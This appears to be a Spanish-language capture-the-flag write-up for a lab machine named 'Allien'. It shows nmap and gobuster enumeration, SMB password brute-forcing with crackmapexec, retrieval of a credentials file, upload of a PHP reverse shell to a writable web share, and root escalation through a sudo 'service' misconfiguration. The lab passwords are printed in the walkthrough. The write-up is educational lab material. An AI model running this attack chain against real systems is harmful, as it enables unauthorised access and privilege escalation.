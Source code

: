 
# Allien
![image](https://github.com/user-attachments/assets/7fcabe7e-bd29-4322-916d-3478628d8599)


## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
sudo nmap -sSCV -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.
```
```bash
PORT    STATE SERVICE      REASON
22/tcp  open  ssh          syn-ack ttl 64
80/tcp  open  http         syn-ack ttl 64
139/tcp open  netbios-ssn  syn-ack ttl 64
445/tcp open  microsoft-ds syn-ack ttl 64
```
Como el puerto 80 está abierto hacemos fuzzing con gobuster para ver qué páginas encontramos.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/index.php            (Status: 200) [Size: 3543]
/info.php             (Status: 200) [Size: 72710]
/productos.php        (Status: 200) [Size: 5229]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```
Revisamos la páginas y no encontramos nada que nos sirva así que vamos a empezar a enumerar por los puerto 139 y 445.
```bash
enum4linux 172.17.0.2
```
Nos encontramos con varios suario y mediante fuerza bruta obtenemos la contraseña de uno de ellos.

![image](https://github.com/user-attachments/assets/4c5a3858-ae93-469c-8f8c-82c8d61bef6c)

## Explotación.

Lanzamos **crackmapexec** para uno de los usuario *satriani7*
```bash
crackmapexec smb 172.17.0.2 -u 'satriani7' -p /usr/share/wordlists/rockyou.txt
```
![image](https://github.com/user-attachments/assets/5ec658f3-1c70-4b61-b6a8-cffd0e325fe4)

Ahora podmeos con smbmap enumerar recursos del usuario *satriani7*
```bash
smbmap -H 172.17.0.2 -u satriani7 -p 50cent
````
![image](https://github.com/user-attachments/assets/58f7b77d-fc96-4565-97ae-780e3e606c1c)

Vemos que tenemos acceso de lectura a los directorios *myshare* y *backup24* que es donde encontraremos información útil.
```bash
smbclient //172.17.0.2/backup24 -U satriani7
```
![image](https://github.com/user-attachments/assets/75cc8b4c-4f6e-48d7-bf62-ef59f8771a73)

```bash
get credentials.txt
```
En el archivo nos encontramos con las credenciales de varios usuario y sus contraseñas, vamos a utilizar las del usuario *administrador* para ver los recursos compartidos y luego con *smbclient* conectarnos a la máquina.
```bash
smbmap -H 172.17.0.2 -u administrador -p Adm1nP4ss2024
```
![image](https://github.com/user-attachments/assets/cb47faa2-92e4-48d3-8bb0-55dca5511e67)

```bash
smbclient //172.17.0.2/home -U administrador
```
![image](https://github.com/user-attachments/assets/2dabfdbc-60f6-454e-9f1a-5b3ef57ea7be)

Podemos observar que es el directorio donde se encuentras las páginas php, así que como tenemos permisos de escritura subimos una revershell, en mi caso de PentestMonkey[https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php], sustituimos la IP y PUERTO con los nuestros y la subimos al directorio.

```bash
put shell.php
```
Una vez que la hemos subido, nos ponemos en escucha por el puerto especificado y en el navegador ponemos la dirección de la página subida.
![image](https://github.com/user-attachments/assets/ff80edc9-4773-4dc7-a90f-d6dffff7706f)

![image](https://github.com/user-attachments/assets/e81330b0-b89a-41e2-9aee-af859842266d)

Hacemos una tratamiento de la tty.
```bash
script -c bash /dev/null
Ctrl+Z
stty -echo raw;fg
reset xterm
export TERM=xterm
export SHELL=bash
```

## Escalada de Privilegios.
Ya estamos dentro de la máquina como el usuario *www-data*, vemos si tenemos algún prvilegio sudo y vemos que podemos ejecutar */usr/sbin/service* como **root**.

![image](https://github.com/user-attachments/assets/9cc801a0-15a4-4fa8-a604-2bfa393286a2)

```bash
sudo /usr/sbin/service ../../bin/bash
```
![image](https://github.com/user-attachments/assets/8fc3fe3e-46c5-401b-8e16-f37e3332cb3f)








